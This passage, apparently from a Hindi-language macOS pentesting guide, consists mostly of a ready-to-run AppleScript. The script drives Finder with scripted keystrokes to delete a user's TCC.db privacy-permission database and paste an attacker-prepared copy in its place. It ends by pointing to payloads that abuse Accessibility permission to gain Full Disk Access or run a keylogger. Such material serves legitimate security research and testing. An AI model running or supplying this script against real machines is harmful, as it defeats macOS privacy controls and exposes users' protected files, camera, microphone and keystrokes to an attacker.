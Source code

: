 उपयोगकर्ताओं के TCC.db को ओवरराइट करने का Finder उदाहरण:
```applescript
-- store the TCC.db file to copy in /tmp
osascript <<EOF
tell application "System Events"
-- Open Finder
tell application "Finder" to activate

-- Open the /tmp directory
keystroke "g" using {command down, shift down}
delay 1
keystroke "/tmp"
delay 1
keystroke return
delay 1

-- Select and copy the file
keystroke "TCC.db"
delay 1
keystroke "c" using {command down}
delay 1

-- Resolve $HOME environment variable
set homePath to system attribute "HOME"

-- Navigate to the Desktop directory under $HOME
keystroke "g" using {command down, shift down}
delay 1
keystroke homePath & "/Library/Application Support/com.apple.TCC"
delay 1
keystroke return
delay 1

-- Check if the file exists in the destination and delete if it does (need to send keystorke code: https://macbiblioblog.blogspot.com/2014/12/key-codes-for-function-and-special-keys.html)
keystroke "TCC.db"
delay 1
keystroke return
delay 1
key code 51 using {command down}
delay 1

-- Paste the file
keystroke "v" using {command down}
end tell
EOF
```
### `kTCCServiceAccessibility` to FDA\*

इस पृष्ठ पर कुछ [**पेलोड्स को एक्सेसिबिलिटी अनुमतियों का दुरुपयोग करने के लिए**](macos-tcc-payloads.md#accessibility) देखें ताकि FDA\* तक पहुंच प्राप्त की जा सके या उदाहरण के लिए एक कीलॉगर चलाया जा सके।
